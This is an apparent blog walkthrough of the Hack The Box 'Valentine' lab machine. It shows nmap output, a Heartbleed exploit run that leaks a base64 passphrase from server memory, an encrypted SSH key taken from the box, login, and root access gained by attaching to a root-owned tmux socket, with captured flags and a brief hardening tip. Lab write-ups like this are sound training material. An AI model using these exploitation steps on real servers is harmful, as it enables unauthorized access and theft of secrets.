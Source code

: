 ```yaml
---
title: "Hack-the-box Valentine"
layout: post
date: 2018-06-25 22:48
image: /assets/images/valentine.png
headerImage: false
tag:
- hack-the-box
- hearthbleed
- walktrhough
category: blog
author: Srbx7
description: Hack-the-box Valentine walktrhough
---
```


![banner](/assets/images/valentine.png)

# Valentine: 10.10.10.79

## Scanning:
<br>

```bash
nmap -A -oA nmap 10.10.10.79

Starting Nmap 7.01 ( https://nmap.org  ) at 2018-05-06 20:04 EDT
Nmap scan report for 10.10.10.79
Host is up (0.15s latency).
Not shown: 996 closed ports
PORT     STATE    SERVICE  VERSION
22/tcp   open     ssh      OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 96:4c:51:42:3c:ba:22:49:20:4d:3e:ec:90:cc:fd:0e (DSA)
|   2048 46:bf:1f:cc:92:4f:1d:a0:42:b3:d2:16:a8:58:31:33 (RSA)
|_  256 e6:2b:25:19:cb:7e:54:cb:0a:b9:ac:16:98:c6:7d:a9 (ECDSA)
80/tcp   open     http     Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
443/tcp  open     ssl/http Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=valentine.htb/organizationName=valentine.htb/stateOrProvinceName=FL/countryName=US
| Not valid before: 2018-02-06T00:45:25
|_Not valid after:  2019-02-06T00:45:25
|_ssl-date: 2018-05-07T00:05:15+00:00; 0s from scanner time.
2251/tcp filtered dif-port
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 70.08 seconds
```

<br>

## Gaining Access:

<br>

First thing first let's see what's on those HTTP(S) applications and run a `dirb`.

![](/assets/images/79_index.png)

_index.html_
```html
<center><img src="omg.jpg"/></center>

```

Well, look what we got. A nice picture with a heart bleeding. The Heartbleed Bug is a serious vulnerability in the popular OpenSSL cryptographic software library. This weakness allows stealing the information protected, under normal conditions, by the SSL/TLS encryption used to secure the Internet

During OSCP exam, you can use `metasploit` for only one machine. Thus, I decided to use this <a href='https://github.com/kevincarroll7737/tools/heartbleed-PoC'>tool</a>.

```bash
python heartbleed-exploit.py 10.10.10.79;head out.txt -n 50; rm out.txt
Connecting...
Sending Client Hello...
 ... received message: type = 22, ver = 0302, length = 66
 ... received message: type = 22, ver = 0302, length = 885
 ... received message: type = 22, ver = 0302, length = 331
 ... received message: type = 22, ver = 0302, length = 4
Handshake done...
Sending heartbeat request with length 4 :
 ... received message: type = 24, ver = 0302, length = 16384
Received heartbeat response in file out.txt
WARNING : server returned more data than it should - server is vulnerable!
  0000: 02 40 00 D8 03 02 53 43 5B 90 9D 9B 72 0B BC 0C  .@....SC[...r...
  0010: BC 2B 92 A8 48 97 CF BD 39 04 CC 16 0A 85 03 90  .+..H...9.......
  0020: 9F 77 04 33 D4 DE 00 00 66 C0 14 C0 0A C0 22 C0  .w.3....f.....".
  0030: 21 00 39 00 38 00 88 00 87 C0 0F C0 05 00 35 00  !.9.8.........5.
  0040: 84 C0 12 C0 08 C0 1C C0 1B 00 16 00 13 C0 0D C0  ................
  0050: 03 00 0A C0 13 C0 09 C0 1F C0 1E 00 33 00 32 00  ............3.2.
  0060: 9A 00 99 00 45 00 44 C0 0E C0 04 00 2F 00 96 00  ....E.D...../...
  0070: 41 C0 11 C0 07 C0 0C C0 02 00 05 00 04 00 15 00  A...............
  0080: 12 00 09 00 14 00 11 00 08 00 06 00 03 00 FF 01  ................
  0090: 00 00 49 00 0B 00 04 03 00 01 02 00 0A 00 34 00  ..I...........4.
  00a0: 32 00 0E 00 0D 00 19 00 0B 00 0C 00 18 00 09 00  2...............
  00b0: 0A 00 16 00 17 00 08 00 06 00 07 00 14 00 15 00  ................
  00c0: 04 00 05 00 12 00 13 00 01 00 02 00 03 00 0F 00  ................
  00d0: 10 00 11 00 23 00 00 00 0F 00 01 01 30 2E 30 2E  ....#.......0.0.
  00e0: 31 2F 64 65 63 6F 64 65 2E 70 68 70 0D 0A 43 6F  1/decode.php..Co
  00f0: 6E 74 65 6E 74 2D 54 79 70 65 3A 20 61 70 70 6C  ntent-Type: appl
  0100: 69 63 61 74 69 6F 6E 2F 78 2D 77 77 77 2D 66 6F  ication/x-www-fo
  0110: 72 6D 2D 75 72 6C 65 6E 63 6F 64 65 64 0D 0A 43  rm-urlencoded..C
  0120: 6F 6E 74 65 6E 74 2D 4C 65 6E 67 74 68 3A 20 34  ontent-Length: 4
  0130: 32 0D 0A 0D 0A 24 74 65 78 74 3D 61 47 56 68 63  2....$text=aGVhc
  0140: 6E 52 69 62 47 56 6C 5A 47 4A 6C 62 47 6C 6C 64  nRibGVlZGJlbGlld
  0150: 6D 56 30 61 47 56 6F 65 58 42 6C 43 67 3D 3D 19  mV0aGVoeXBlCg==.
  0160: D1 9C 3E AE 23 57 C6 09 0B 9D E3 01 7F F4 92 78  ..>.#W.........x
  0170: F7 5F 65 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C  ._e.............

echo 'aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg=='|base64 -d                  
heartbleedbelievethehype
```

I've got stuck for a while shuffling the memory. Finally, I discovered the path `/dev` by running `nikto -host 10.10.10.79` in the HTTPS application which gave me the encoded `hype_key`.

_hype_key.txt_
```bash
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,AEB88C140F69BF2074788DE24AE48D46

DbPrO78kegNuk1DAqlAN5jbjXv0PPsog3jdbMFS8iE9p3UOL0lF0xf7PzmrkDa8R
5y/b46+9nEpCMfTPhNuJRcW2U2gJcOFH+9RJDBC5UJMUS1/gjB/7/My00Mwx+aI6
0EI0SbOYUAV1W4EV7m96QsZjrwJvnjVafm6VsKaTPBHpugcASvMqz76W6abRZeXi
Ebw66hjFmAu4AzqcM/kigNRFPYuNiXrXs1w/deLCqCJ+Ea1T8zlas6fcmhM8A+8P
OXBKNe6l17hKaT6wFnp5eXOaUIHvHnvO6ScHVWRrZ70fcpcpimL1w13Tgdd2AiGd
pHLJpYUII5PuO6x+LS8n1r/GWMqSOEimNRD1j/59/4u3ROrTCKeo9DsTRqs2k1SH
QdWwFwaXbYyT1uxAMSl5Hq9OD5HJ8G0R6JI5RvCNUQjwx0FITjjMjnLIpxjvfq+E
p0gD0UcylKm6rCZqacwnSddHW8W3LxJmCxdxW5lt5dPjAkBYRUnl91ESCiD4Z+uC
Ol6jLFD2kaOLfuyee0fYCb7GTqOe7EmMB3fGIwSdW8OC8NWTkwpjc0ELblUa6ulO
t9grSosRTCsZd14OPts4bLspKxMMOsgnKloXvnlPOSwSpWy9Wp6y8XX8+F40rxl5
XqhDUBhyk1C3YPOiDuPOnMXaIpe1dgb0NdD1M9ZQSNULw1DHCGPP4JSSxX7BWdDK
aAnWJvFglA4oFBBVA8uAPMfV2XFQnjwUT5bPLC65tFstoRtTZ1uSruai27kxTnLQ
+wQ87lMadds1GQNeGsKSf8R/rsRKeeKcilDePCjeaLqtqxnhNoFtg0Mxt6r2gb1E
AloQ6jg5Tbj5J7quYXZPylBljNp9GVpinPc3KpHttvgbptfiWEEsZYn5yZPhUr9Q
r08pkOxArXE2dj7eX+bq65635OJ6TqHbAlTQ1Rs9PulrS7K4SLX7nY89/RZ5oSQe
2VWRyTZ1FfngJSsv9+Mfvz341lbzOIWmk7WfEcWcHc16n9V0IbSNALnjThvEcPky
e1BsfSbsf9FguUZkgHAnnfRKkGVG1OVyuwc/LVjmbhZzKwLhaZRNd8HEM86fNojP
09nVjTaYtWUXk0Si1W02wbu1NzL+1Tg9IpNyISFCFYjSqiyG+WU7IwK3YU5kp3CC
dYScz63Q2pQafxfSbuv4CMnNpdirVKEo5nRRfK/iaL3X1R3DxV8eSYFKFL6pqpuX
cY5YZJGAp+JxsnIQ9CFyxIt92frXznsjhlYa8svbVNNfk/9fyX6op24rL2DyESpY
pnsukBCFBkZHWNNyeN7b5GhTVCodHhzHVFehTuBrp+VuPqaqDvMCVe1DZCb4MjAj
Mslf+9xK+TXEL3icmIOBRdPyw6e/JlQlVRlmShFpI8eb/8VsTyJSe+b853zuV2qL
suLaBMxYKm3+zEDIDveKPNaaWZgEcqxylCC/wUyUXlMJ50Nw6JNVMM8LeCii3OEW
l0ln9L1b/NXpHjGa8WHHTjoIilB5qNUyywSeTBF2awRlXH9BrkZG4Fc4gdmW/IzT
RUgZkbMQZNIIfzj1QuilRVBm/F76Y/YMrmnM9k/1xSGIskwCUQ+95CGHJE8MkhD3
-----END RSA PRIVATE KEY-----
```

Well, the initial `nmap` shows that the ssh server accepts `RSA-2048`.

```bash
chmod 600 hype_key.txt
ssh -i hype_key.txt hype@10.10.10.79
Enter passphrase for key 'hype_key.txt': heartbleedbelievethehype

Welcome to Ubuntu 12.04 LTS (GNU/Linux 3.2.0-23-generic x86_64)
 * Documentation:  https://help.ubuntu.com/
New release '14.04.5 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Last login: Sun May  6 17:56:59 2018 from 10.10.15.75
hype@Valentine:~$ 
```



<br>

## Maintaining Access:

<br>
```
N/A
```

<br>

## Acheive Tasks:

<br>

```bash
#Localhost
sudo scp -i hype_key.txt ~/git/tools/linenum.sh hype@10.10.10.79:~/
Enter passphrase for key 'hype_key.txt': 
linenum.sh                                                             100%   41KB  41.2KB/s   00:0o
```

Once the `linenum.sh` was on the `valentine host` I ran it and discovered that `tmux` was installed. 

I fist ran, `tmux -V` to see if this version was vulnerable to `utmp priv esc`, but it wasn't. 

`Tmux` is a strong shell emulator. It gives you the opportunity to leave terminal session and come back to them without interrupting the running process by creating a persistent socket `-S` stored localy. 



```bash
#Get the root tmux socket
hype@Valentine:~$ ps -aux|grep tmux
Warning: bad ps syntax, perhaps a bogus '-'? See http://procps.sf.net/faq.html
root       1027  0.0  0.1  26416  1688 ?        Ss   19:07   0:01 /usr/bin/tmux -S /.devs/dev_sess
hype       4406  0.0  0.0  13576   936 pts/0    S+   19:41   0:00 grep --color=auto tmux

#Connect to this socket
hype@Valentine:~$ tmux -S /.devs/dev_sess
root@Valentine:/home/hype~ id
uid=0(root) gid=0(root) groups=0(root)
oot@Valentine:/home/hype~ cat /root/root.txt
f1bb6d759df1f272914ebbc9ed7765b2
hype@Valentine:~$ find . -iname user.txt
./Desktop/user.txt
hype@Valentine:~$ cat ./Desktop/user.txt 
e6710a5464769fd5fcd216e076961750
```

So, how to manage `root tmux sockets` on a public server? Simple, make sure that this socket is a `root` dirctory

```bash
hype@Valentine:~$ ps -aux|grep tmux
Warning: bad ps syntax, perhaps a bogus '-'? See http://procps.sf.net/faq.html
root       1027  0.0  0.1  26416  1688 ?        Ss   19:07   0:01 /usr/bin/tmux -S /.devs/dev_sess
root       4588  0.0  0.1  26420  1688 ?        Ss   19:57   0:00 tmux -S /root/test
hype       4653  0.0  0.0  13576   936 pts/0    S+   19:57   0:00 grep --color=auto tmux
hype@Valentine:~$ tmux -S /root/test
failed to connect to server: Permission denied
```
